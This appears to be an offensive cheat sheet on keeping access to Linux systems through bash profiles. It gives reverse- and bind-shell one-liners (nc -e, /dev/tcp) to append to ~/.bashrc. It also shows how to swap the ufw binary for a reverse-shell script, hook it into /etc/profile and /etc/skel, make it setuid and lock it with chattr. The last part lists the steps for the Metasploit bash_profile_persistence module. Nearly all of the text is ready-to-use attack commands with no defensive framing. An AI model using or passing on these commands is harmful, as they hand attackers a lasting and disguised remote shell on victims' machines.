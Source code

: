# Bash Profiles

## 01 - Unix Shell

### 1.1 - User Profile

- Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

- Bind Shell

`$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc`

### 1.2 - Global System Profile

- Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

## 02 - Metasploit

```
msf > use exploit/linux/local/bash_profile_persistence

msf exploit(linux/local/bash_profile_persistence) > options

Module options (exploit/linux/local/bash_profile_persistence):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASH_PROFILE  ~/.bashrc        yes       Target Bash profile location. Usually ~/.bashrc or ~/.bash_profile.
   PAYLOAD_DIR   /var/tmp/        yes       Directory to write persistent payload file.
   SESSION                        yes       The session to run this module on


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/local/bash_profile_persistence) > set bash_profile </path/to/bash_rc_file>

msf exploit(linux/local/bash_profile_persistence) > set payload_dir </path/to/directory>

msf exploit(linux/local/bash_profile_persistence) > set lhost <IP>

msf exploit(linux/local/bash_profile_persistence) > set lport <PORT>

msf exploit(linux/local/bash_profile_persistence) > set session <session_id>

msf exploit(linux/local/bash_profile_persistence) > run
```

---
## References

- [[Linux Post Exploitation Persistence References]]